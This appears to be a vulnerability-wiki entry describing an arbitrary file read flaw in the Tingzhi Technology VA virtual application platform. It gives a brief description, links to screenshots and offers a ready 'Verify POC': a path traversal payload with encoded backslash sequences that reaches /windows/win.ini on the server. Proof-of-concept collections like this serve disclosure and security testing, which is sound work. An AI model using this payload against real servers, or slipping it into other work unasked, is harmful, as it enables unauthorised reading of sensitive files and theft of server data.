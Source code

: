 # Tingzhi Technology VA virtual application platform Arbitrary file reading vulnerability

## Vulnerability Description

Tingzhi Technology VA virtual application platform There is a vulnerability to read any file, and attackers can obtain sensitive information from the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tingzhi Technology VA virtual application platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683073057116-3fcea542-7aec-4fde-9ad1-ba4ec639c17e.png)

Verify POC

```python
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683073234358-a1e4cecc-48c7-4509-b2cb-70d0bfaa9fc6.png)